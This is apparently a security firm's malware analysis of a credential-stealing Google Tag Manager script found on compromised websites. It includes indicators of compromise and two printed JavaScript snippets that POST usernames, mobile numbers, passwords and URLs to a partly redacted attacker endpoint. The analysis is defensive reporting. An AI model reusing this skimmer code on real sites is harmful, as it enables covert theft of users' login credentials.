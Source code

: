 # Google Tag Manager (GTM) Keylogger

---

During red team engagement, we discovered a malicious Google Tag Manager (GTM) keylogger in the wild.

![img](https://i.imgur.com/yEcvuWF.png)


#### Disclaimer: 

Some information has been redacted to protect our client's identity and the victims' data. However, the relevant details can be obtained by analyzing the script. We bear no responsibility for any misuse of this data. 

#### What is Google Tag Manager (GTM)

Google Tag Manager is a tool used to manage and deploy marketing and analytics tags (such as Google Analytics, Facebook Pixel, or custom JavaScript snippets) on a website without modifying the website's code directly. 

![img](https://i.imgur.com/5SpLoUE.png)

In this case, the malicious GTM script disguised itself as a legitimate marketing script. However, upon inspecting website traffic, we noticed an unknown external request being sent to **redacted.com**

## Indicators of Compromise (IoC):

Filename: GTM-N749G7NX

Infected GTM: https://www.googletagmanager.com/gtm.js?id=GTM-N749G7NX

MD5: d45af33f6812e42bf70fff90fc5ffb95

SHA-1: cb260373ec5f4ab65bf4fa4ae04fae593162398c

![img](https://i.imgur.com/hXahVqs.png)

At the time of writing, VirusTotal does not flag this as malicious.
## Analysis of the Malicious GTM Script

Our team extracted and analyzed all JavaScript files on the compromised website. During this process, we identified a GTM script in disguise. Upon deeper inspection, a major red flag was uncovered.


## How This Malicious Script Works:

1. Extracts User Data: Retrieves the username, mobile, password, and URL from macros (likely within a website or tracking system).
2. Checks for Mobile Presence: If the mobile variable exists, it executes the attack.
3. Exfiltrates Stolen Data: Uses an XMLHttpRequest to send the extracted credentials to:
https://**redacted**.biz/dashboard_gtm/api/my/gtmregister_my.php


### Malicious Google Tag Manager (GTM) Script Breakdown

#### 1. Credential Keylogging

```javascript
[..snippet..]
    var username = ["escape", ["macro", 3], 8, 16],
        mobile = ["escape", ["macro", 4], 8, 16],
        password = ["escape", ["macro", 5], 8, 16],
        url = ["escape", ["macro", 2], 8, 16];

    if (mobile) {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://**redacted**.biz/dashboard_gtm/api/my/gtmregister_my.php", true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.onreadystatechange = function() {};
        xhr.send(
            "mobile=" + encodeURIComponent(mobile) +
            "&username=" + encodeURIComponent(username) +
            "&password=" + encodeURIComponent(password) +
            "&url=" + encodeURIComponent(url)
        );
    }
[..snippet..]

````

Purpose: This script steals user credentials (username, mobile number, password, and URL).

Trigger: Executes if the mobile variable exists.

Exfiltration: Sends stolen data to https://**redacted**.biz/dashboard_gtm/api/my/gtmregister_my.php.

-----

#### 2. Depositi Tracking

```javascript
[..snippet..]
    var username = ["escape", ["macro", 6], 8, 16],
        url = ["escape", ["macro", 2], 8, 16];

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://**redacted**.biz/dashboard_gtm/api/my/gtmdeposit_my.php", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.onreadystatechange = function() {};
    xhr.send(
        "username=" + encodeURIComponent(username) +
        "&url=" + encodeURIComponent(url)
    );
</script>

[..snippet..]
```

Purpose: Tracks and identify where the stolen data from which infected website.

Data Sent: Username and URL.

Exfiltration: Sends data to https://**redacted**.biz/dashboard_gtm/api/my/gtmdeposit_my.php

---


## The Hacker's Mistake & Further Findings

![img](https://i.imgur.com/9jVH39l.png)

The attacker left an open vulnerability on their website, allowing our team to gain deeper insights into their infrastructure.

![img](https://i.imgur.com/DM1DQ2W.png)

Sample victim data on hacker's website.

## Scope of the Attack

Our analysis indicates that this malicious GTM script has spread across eight countries, affecting:

Malaysia, Indonesia, Thailand, Bangladesh, Australia, Hong Kong, Vietnam, Singapore


Impact:
At least 66 websites have been compromised. A total of 27,281 user credentials have been stolen.

## Conclusion

This incident highlights the growing risk of supply-chain attacks leveraging GTM. We strongly recommend conducting security audits on GTM implementations and monitoring outbound traffic for suspicious requests.

kaizensecurity@2025
